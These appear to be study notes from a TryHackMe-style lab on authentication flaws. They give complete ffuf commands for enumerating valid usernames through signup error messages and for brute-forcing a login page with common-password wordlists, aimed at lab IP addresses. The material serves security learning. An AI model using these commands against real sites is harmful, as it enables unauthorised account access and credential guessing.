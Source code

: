 Common flaws in authentication mechanism that allow bypassing.

# 1. Username enumeration
Very helpful practice when trying to find auth vulns is creating a list of valid usernames, which we'll use later in other tasks.
This is usually done through website error messages. For example: `An account with this username already exists` 
The ffuf tool uses a list of commonly used usernames to check against for any matches.
```shell-session
user@tryhackme$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.56.253/customers/signup -mr "username already exists" > usernames.txt
```
`-X` - specify the HTTP method
`-d` - specify the data that will be sent.
`-H` - specify the content type header as form data.
`-u` - specify the URL.
`-mr` - specify the regex expression for successful enum.

## 2. Brute Force
With the valid usernames already listed, we can attempt to brute force the login page. This is an automated process that tries a list of commonly used passwords against one or a list of usernames.

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.80.116/customers/login -fc 200
```
`-fc` - Ignores 200 codes, for when successful login returns 302 codes for example.
